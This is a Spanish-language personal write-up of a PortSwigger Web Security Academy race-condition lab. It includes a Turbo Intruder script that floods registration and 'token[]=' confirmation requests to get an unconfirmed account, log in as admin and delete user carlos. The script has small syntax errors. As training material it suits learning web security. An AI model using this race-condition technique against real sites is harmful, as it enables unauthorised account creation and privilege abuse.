 Una vez lanzado el ataque, revisamos los resultados en función del código de estado y el tamaño de la respuesta. Si alguna de las confirmaciones devuelve un 200 y menciona que el registro del usuario fue exitoso, tomamos nota del nombre de usuario.

Luego, usamos la contraseña estática definida en el ataque para iniciar sesión con la nueva cuenta. Finalmente, accedemos al panel de administración y eliminamos al usuario carlos, resolviendo así el laboratorio.

Esta clase muestra cómo confirmar el éxito del ataque y completar la explotación de principio a fin.

Solucion
 y quedaria asi
(def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    confirmation_email =  '''POST /confirm?token[]= HTTP/2
Host: 0ade005a033104308015582a00e700ce.web-security-academy.net
Cookie: phpsessionid=RxwYlBG5FYgFJmUUJwzvxA29D7mv7opF
Content-Length: 0

'''
    
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = "Lobotech" + str(i)
        engine.queue(target.req, username, gate=str(i))

        for j in range(50):
            engine.queue(confirmation_email, gate=str(i))

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate(str(i))


def handleResponse(req, interesting):
    table.add(req))


me sirvio el payload el otro payload

![[Pasted image 20250901230643.png]]
asi que probamos logearnos
![[Pasted image 20250901230835.png]]
y eliminamos al carlos
![[Pasted image 20250901230905.png]]
asi quedo
![[Pasted image 20250901230936.png]]
![[Pasted image 20250901230959.png]]
![[Pasted image 20250901231017.png]]
